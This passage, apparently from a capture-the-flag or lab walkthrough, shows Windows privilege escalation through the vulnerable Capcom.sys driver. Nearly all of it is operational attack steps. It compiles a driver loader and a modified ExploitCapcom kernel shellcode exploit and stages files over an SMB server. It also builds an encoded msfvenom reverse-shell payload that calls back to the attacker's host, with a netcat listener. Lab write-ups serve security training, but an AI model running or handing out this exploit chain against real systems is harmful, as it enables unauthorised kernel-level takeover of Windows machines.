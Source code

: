 Compile the above code saved in `loaddriver.cpp` as follows and transfer it to the target with `Capcom.sys`:

```bash
# run on kali
x86_64-w64-mingw32-g++ loaddriver.cpp -o loaddriver.exe -s --static
wget https://github.com/FuzzySecurity/Capcom-Rootkit/raw/master/Driver/Capcom.sys 
sudo impacket-smbserver BUBBA .
# run on target
robocopy.exe \\10.10.14.25\BUBBA C:\Users\svc-print Capcom.sys /copy:DT /w:1 /r:1 /v 
robocopy.exe \\10.10.14.25\BUBBA C:\Users\svc-print loaddriver.exe /copy:DT /w:1 /r:1 /v 
```

Now to create the payload to be executed... Starting from the code in this repo:

- https://github.com/tandasat/ExploitCapcom

This C++ code will not compile with MinGW standalone:

- Copy over the `#include` definitions from [stdafx.h](https://github.com/tandasat/ExploitCapcom/blob/master/ExploitCapcom/ExploitCapcom/stdafx.h) to [ExploitCapcom.cpp](https://github.com/tandasat/ExploitCapcom/blob/master/ExploitCapcom/ExploitCapcom/ExploitCapcom.cpp) and make sure all capital `W` in `#include` are lowercase
- Remove references to `#include "stdafx.h"` from [ExploitCapcom.cpp](https://github.com/tandasat/ExploitCapcom/blob/master/ExploitCapcom/ExploitCapcom/ExploitCapcom.cpp)
- Fix the following code with explicit casting (if you can't find it, try to compile and the error will show where to edit):

```c++
InBufferContents->Shellcode = (SHELLCODE){
    { 0x90, },                                  //      nop     ; for debugging
    { 0xfb, },                                  //      sti
    { 0xff, 0x25, 0x00, 0x00, 0x00, 0x00, },    //      jmp qword ptr [nextline]
                                                // nextline:
    (void *)&KernelPayload,                     //      dq KernelPayload
};
```

- Change the `CommandLine` in the `LaunchShell` function of [ExploitCapcom.cpp](https://github.com/tandasat/ExploitCapcom/blob/master/ExploitCapcom/ExploitCapcom/ExploitCapcom.cpp) to the following:

```c++
TCHAR CommandLine[] = TEXT("C:\\Users\\svc-print\\bubba.root.exe");
```

Now compile this exploit with the modifications saved in `exploit.cpp` and generate a new payload. Then transfer them to the target as well:

```bash
# run on kali
# '-lntdll' is needed due to the '#pragma comment(lib, "ntdll.lib")'
x86_64-w64-mingw32-g++ exploit.cpp -o exploit.exe -s -lntdll --static
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.root.exe
nc -nvlp 7777
sudo impacket-smbserver BUBBA .
# run on target
robocopy.exe \\10.10.14.25\BUBBA C:\Users\svc-print exploit.exe /copy:DT /w:1 /r:1 /v 
robocopy.exe \\10.10.14.25\BUBBA C:\Users\svc-print bubba.root.exe /copy:DT /w:1 /r:1 /v 
```
